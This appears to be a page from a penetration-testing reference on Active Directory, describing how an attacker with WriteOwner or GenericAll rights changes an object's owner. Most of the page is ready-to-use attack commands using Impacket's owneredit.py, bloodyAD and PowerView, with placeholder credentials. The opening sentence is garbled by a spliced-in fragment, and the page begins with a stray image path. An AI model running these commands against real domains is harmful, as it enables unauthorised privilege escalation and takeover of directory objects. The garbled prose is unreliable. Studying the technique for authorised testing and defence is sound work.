 ```yaml
---
authors: 'CravateRouge, ShutdownRepo, sckdev'
category: ad
---
```


# Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
```


=== Windows

From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```

:::

